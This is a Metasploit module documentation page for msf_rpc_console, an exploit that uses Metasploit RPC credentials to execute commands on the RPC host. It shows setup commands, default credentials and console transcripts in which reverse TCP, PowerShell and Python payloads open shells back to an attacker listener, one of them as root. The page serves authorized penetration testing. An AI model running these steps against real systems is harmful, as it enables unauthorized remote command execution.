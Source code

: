 ## Description

  This module connects to a specified Metasploit RPC server and uses the *console.write* procedure to execute operating system commands. Valid credentials are required to access the RPC interface.


## Vulnerable Application

  [Metasploit](https://www.rapid7.com/products/metasploit/) is the world's most used penetration testing software. The RPC API can be used to programmatically drive the Metasploit Framework and Metasploit Pro products.

  To start the RPC service, run `msfrpcd -U msf -P abc123`; or run `load msgrpc ServerHost=0.0.0.0 ServerPort=55552 User=msf Pass=abc123 SSL=Y` from within msfconsole.

  This module has been tested successfully on:

  * Metasploit 4.15 on Kali 1.0.6
  * Metasploit 4.14 on Kali 2017.1
  * Metasploit 4.14 on Windows 7 SP1

  Source and Installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://github.com/rapid7/metasploit-framework/wiki/Downloads-by-Version)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/misc/msf_rpc_console`
  3. Do: `set RHOST [IP]`
  4. Do: `set RPORT [PORT]` (default: `55552`)
  5. Do: `set USERNAME [USERNAME]` (default: `msf`)
  6. Do: `set PASSWORD [PASSWORD]`
  7. Do: `set LHOST [IP]`
  8. Do: `run`
  9. You should get a session


## Options

  **Username**

  The username for Metasploit RPC (default: `msf`).

  **Password**

  The password for the RPC user.


## Scenarios

### Ruby Target

  ```
  msf > use exploit/multi/misc/msf_rpc_console 
  msf exploit(msf_rpc_console) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(msf_rpc_console) > set username msf
  username => msf
  msf exploit(msf_rpc_console) > set password abc123
  password => abc123
  msf exploit(msf_rpc_console) > set lhost 172.16.191.181
  lhost => 172.16.191.181
  msf exploit(msf_rpc_console) > set target 0
  target => 0
  msf exploit(msf_rpc_console) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [+] 172.16.191.166:55552 - Authenticated successfully
  [*] 172.16.191.166:55552 - Metasploit 4.14.28-dev
  [*] 172.16.191.166:55552 - Ruby 2.3.3 x64-mingw32 2016-11-21
  [*] 172.16.191.166:55552 - API version 1.0
  [+] 172.16.191.166:55552 - Created console #0
  [*] 172.16.191.166:55552 - Sending payload...
  [*] Command shell session 1 opened (172.16.191.181:4444 -> 172.16.191.166:52984) at 2017-07-05 03:40:50 -0400

  whoami
  win-sgbsd5tqutq\user
  ```

### Windows CMD Target

  ```
  msf > use exploit/multi/misc/msf_rpc_console 
  msf exploit(msf_rpc_console) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(msf_rpc_console) > set username msf
  username => msf
  msf exploit(msf_rpc_console) > set password abc123
  password => abc123
  msf exploit(msf_rpc_console) > set lhost 172.16.191.181
  lhost => 172.16.191.181
  msf exploit(msf_rpc_console) > set target 0
  target => 1
  msf exploit(msf_rpc_console) > set payload cmd/windows/powershell_reverse_tcp 
  payload => cmd/windows/powershell_reverse_tcp
  msf exploit(msf_rpc_console) > run

  [*] Started reverse SSL handler on 172.16.191.181:4444 
  [+] 172.16.191.166:55552 - Authenticated successfully
  [*] 172.16.191.166:55552 - Metasploit 4.14.28-dev
  [*] 172.16.191.166:55552 - Ruby 2.3.3 x64-mingw32 2016-11-21
  [*] 172.16.191.166:55552 - API version 1.0
  [+] 172.16.191.166:55552 - Created console #1
  [*] 172.16.191.166:55552 - Sending payload...
  [*] Powershell session session 2 opened (172.16.191.181:4444 -> 172.16.191.166:52996) at 2017-07-05 03:44:05 -0400

  Windows PowerShell running as user user on WIN-SGBSD5TQUTQ
  Copyright (C) 2015 Microsoft Corporation. All rights reserved.

  PS C:\metasploit>whoami
  win-sgbsd5tqutq\user
  ```

### Unix CMD Target

  ```
  msf > use exploit/multi/misc/msf_rpc_console 
  msf exploit(msf_rpc_console) > set rhost 172.16.191.215
  rhost => 172.16.191.215
  msf exploit(msf_rpc_console) > set username msf
  username => msf
  msf exploit(msf_rpc_console) > set password abc123
  password => abc123
  msf exploit(msf_rpc_console) > set lhost 172.16.191.181
  lhost => 172.16.191.181
  msf exploit(msf_rpc_console) > set target 2
  target => 2
  msf exploit(msf_rpc_console) > set payload cmd/unix/reverse_python
  payload => cmd/unix/reverse_python
  msf exploit(msf_rpc_console) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [+] 172.16.191.215:55552 - Authenticated successfully
  [*] 172.16.191.215:55552 - Metasploit 4.15.0-dev-aceeedc
  [*] 172.16.191.215:55552 - Ruby 2.3.0 x86_64-linux 2015-12-25
  [*] 172.16.191.215:55552 - API version 1.0
  [+] 172.16.191.215:55552 - Created console #0
  [*] 172.16.191.215:55552 - Sending payload...
  [*] Command shell session 3 opened (172.16.191.181:4444 -> 172.16.191.215:40768) at 2017-07-05 03:46:11 -0400

  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

